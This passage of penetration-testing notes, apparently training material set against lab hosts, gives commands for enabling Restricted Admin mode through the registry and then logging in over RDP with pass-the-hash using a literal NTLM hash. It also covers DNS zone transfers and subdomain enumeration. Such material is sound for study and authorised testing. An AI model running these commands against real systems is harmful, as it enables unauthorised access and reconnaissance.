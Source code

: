 Adding the DisableRestrictedAdmin Registry Key

```shell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

Once the registry key is added, we can use `xfreerdp` with the option `/pth` to gain RDP access:

```shell
xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9
```


## DNS

```shell
nmap -p53 -Pn -sV -sC 10.10.110.213
```

### DNS Zone Transfer

Dig:
```shell
dig AXFR @ns1.inlanefreight.htb inlanefreight.htb
```

Tools like [Fierce](https://github.com/mschwager/fierce) can also be used to enumerate all DNS servers of the root domain and scan for a DNS zone transfer:

Fierce:
```shell
fierce --domain zonetransfer.me
```

### Domain Takeovers & Subdomain Enumeration

Before performing a subdomain takeover, we should enumerate subdomains for a target domain using tools like [Subfinder](https://github.com/projectdiscovery/subfinder). This tool can scrape subdomains from open sources like [DNSdumpster](https://dnsdumpster.com/). Other tools like [Sublist3r](https://github.com/aboul3la/Sublist3r) can also be used to brute-force subdomains by supplying a pre-generated wordlist:

Subfinder:
```shell
./subfinder -d inlanefreight.com -v 
```

An excellent alternative is a tool called [Subbrute](https://github.com/TheRook/subbrute). This tool allows us to use self-defined resolvers and perform pure DNS brute-forcing attacks during internal penetration tests on hosts that do not have Internet access.

Subbrute:
```shell
./subbrute inlanefreight.com -s ./names.txt -r ./resolvers.txt
```

The [can-i-take-over-xyz](https://github.com/EdOverflow/can-i-take-over-xyz) repository is also an excellent reference for a subdomain takeover vulnerability. It shows whether the target services are vulnerable to a subdomain takeover and provides guidelines on assessing the vulnerability.

